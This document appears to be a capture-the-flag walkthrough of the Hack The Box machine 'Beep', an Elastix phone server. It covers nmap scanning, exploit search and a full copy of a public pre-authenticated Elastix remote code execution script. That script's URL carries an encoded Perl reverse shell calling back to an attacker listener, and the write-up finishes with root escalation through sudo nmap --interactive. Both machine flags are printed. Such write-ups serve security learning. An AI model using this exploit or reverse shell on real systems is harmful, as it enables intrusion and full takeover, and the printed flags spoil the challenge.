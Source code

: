 #Elastix #PBX #ignore-bad-ssl

# Reconnaissance

```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.7 --type All
# Nmap
nmap -sV -sC -A 10.10.10.7 -Pn
```

```txt
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_ssl-date: 2022-06-20T08:59:08+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Making a script scan on UDP ports: 111
                                                                                                                                                                                
In progress: No Scan (0:00:00 elapsed - 0:00:00 remaining)                                                                                                                     In progress: No Scan (0:00:00 elapsed - 0:00:00 remaining)    [#>                                                                                                    ] 0% done  

PORT    STATE SERVICE VERSION
111/udp open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            876/udp   status
|_  100024  1            879/tcp   status

```

# Enumeration

## Enumerate on  80

![[Beep-01.png]]

when we access port 80 of beep, we will find Elastix Login panel. We tried admin/admin and admin/password.

[Elastix](https://www.elastix.org/) is a private branch exchange (PBX) software. A PBX controls a telephone / voice network within a corporate network, connecting it to the rest of the network. This very much fits the theme of the box name, Beep.

# Exploitation
https://0xdf.gitlab.io/2021/02/23/htb-beep.html

http://www.offensive-security.com/0day/freepbx_callmenum.py.txt

we will search the sploit.

```bash
searchsploit Elastix 
```

![[Beep-02.png]]

There will be multiple exploit like local file inclusion, Bind SQL Injection, and Remote Code Execution. Let's try RCE first (RCE is definitely vital for all pentester) 

## Elastix 2.2.0 - Remote Code Execution
Download the script:
```bash
searchsploit -m 18650
# nc 443
nc -vlp 443
# change the lport and lhost
```

To use this script, I had to make three changes:

1.  Update my IP and port to get a callback.
2.  Update to ignore bad ssl certs
3.  Find the extension

The first is easy. The second took some Googling, but I found I could create an SSL context that said to ignore the certificate errors, and pass it into the request like this:

https://stackoverflow.com/questions/19268548/python-ignore-certificate-validation-urllib2

![[Beep-08.png]]

```python
ctx = ssl.create_default_context()
ctx.check_hostname = False 
ctx.verify_mode = ssl.CERT_NONE 

urllib.urlopen(url, context=ctx)
```


The last one is an issue specific to the instance of the PBX. I need an open extension, so I’ll use `svwar` to look for one: `svwar` is a free SIP PBX extension line scanner. In concept it works similar to traditional wardialers by guessing a range of extensions or a given list of extensions.

```bash
svwar -m INVITE -e100-999 10.10.10.7
```

![[Beep-03.png]]

I’ll add that to the script where it defines `extension`.

This is the final script:

```python
#!/usr/bin/python
############################################################
# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit
# Google Dork: oy vey
# Date: March 23rd, 2012
# Author: muts, SSL update by Emporeo
# Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.
# Tested on: multiple
# CVE : notyet
# Blog post : http://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/
# Archive Url : http://www.offensive-security.com/0day/freepbx_callmenum.py.txt
############################################################
# Discovered by Martin Tschirsich
# http://seclists.org/fulldisclosure/2012/Mar/234
# http://www.exploit-db.com/exploits/18649
############################################################
import urllib
import ssl
rhost="10.10.10.7"
lhost="10.10.14.14"
lport=443
extension="233"

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

ctx = ssl.create_default_context()
ctx.check_hostname = False 
ctx.verify_mode = ssl.CERT_NONE 
urllib.urlopen(url)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

```

run the exploit to get the shell:

```bash
python 18650.py
whoami
hostname
id
```

![[Beep-04.png]]
```bash
# upgrade the shell
python -c 'import pty; pty.spawn("/bin/bash");'
# get the flag
cat /home/fanis/user.txt
# flag
f2936505f69d824ceb483706c145a83a
```

![[Beep-05.png]]

# Privilege Escalation
we will also review 18650 python scritpt which tell us how to do privilege escalation on Elastix.

![[Beep-06.png]]

```bash
# run in shell
sudo nmap --interactive
!sh
id
# we will get root privilege, and will get root flag
cat /root/root.txt
# Flag
d24dac4c651b64b4fc564f2df179fcea
```

![[Beep-07.png]]


